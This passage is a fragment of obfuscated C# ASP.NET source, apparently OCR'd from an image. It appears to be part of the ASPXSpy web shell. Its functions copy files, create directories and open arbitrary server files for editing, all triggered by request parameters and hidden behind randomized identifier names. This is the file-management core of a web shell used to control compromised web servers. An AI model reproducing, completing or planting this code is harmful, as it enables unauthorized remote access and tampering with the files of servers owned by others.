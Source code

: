 }
krIR(AXSbb.Value);
}
public void YByN(string spath,string dpath)
{
try
{
File.Copy(spath,dpath);
xseuB("File Copy Success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void stNPw(string path)
{
try
{
Directory.CreateDirectory(AXSbb.Value+path);
xseuB("Directory created success !");
}
catch(Exception error)
{
xseuB(error.Message);
}
krIR(AXSbb.Value);
}
public void gLKc(string path)
{
if(Request["__EVENTTARGET"]=="Bin_Editfile" || Request["__EVENTTARGET"]=="Bin_Createfile")
{
foreach(ListItem item in NdCX.Items)
{
if(item.Selected=true)
{
item.Selected=false;
}
}
}
Bin_H2_Title.InnerHtml="Create/ Edit File &gt;&gt;";
WICxe();
vrFA.Visible=true;
if(path.IndexOf(":")&lt; 0)
{
Sqon.Value=AXSbb.Value+path;
}
else
{
Sqon.Value=path;
}
if(File.Exists(Sqon.Value))
{
StreamReader sr;
if(NdCX.SelectedItem.Text=="UTF-8")
{
sr=new StreamReader(Sqon.Value,Encoding.UTF8);
}
else
{
sr=new StreamReader(Sqon.Value,Encoding.Default);
}
Xgvv.InnerText=sr.ReadToEnd();
